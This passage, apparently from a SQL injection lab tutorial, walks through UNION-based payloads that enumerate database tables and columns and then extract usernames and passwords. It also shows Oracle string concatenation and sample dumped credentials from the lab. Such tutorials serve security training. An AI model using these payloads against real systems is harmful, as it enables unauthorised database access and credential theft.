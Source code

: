 First, retrieve the table names using the following payload:

`'+union+select+null,table_name,null+from+information_schema.tables--`

From the response, we find some interesting tables such as **pg_class** and **pg_attribute**, which are **PostgreSQL** system tables. Among them, we also discover a table named **users**. Next, we check the columns in the users table using this payload:

`'+union+select+null,column_name+from+information_schema.columns+where+table_name='users'--`

The response indicates that the users table contains the following columns: email, password, and username.

Finally, retrieve the usernames and passwords with this payload:

`'+union+select+username,password+from+users--`

![alt text](image/image-4.png)

## Retrieving multiple values within a single column

In some cases the query in the previous example may only return a single column.

You can retrieve multiple values together within this single column by concatenating the values together. You can include a separator to let you distinguish the combined values. For example, on Oracle you could submit the input:
`' UNION SELECT username || '~' || password FROM users--`

This uses the double-pipe sequence `||` which is a string concatenation operator on Oracle. The injected query concatenates together the values of the username and password fields, separated by the ~ character.

The results from the query contain all the usernames and passwords, for example:
```
...
administrator~s3cure
wiener~peter
carlos~montoya
...
```
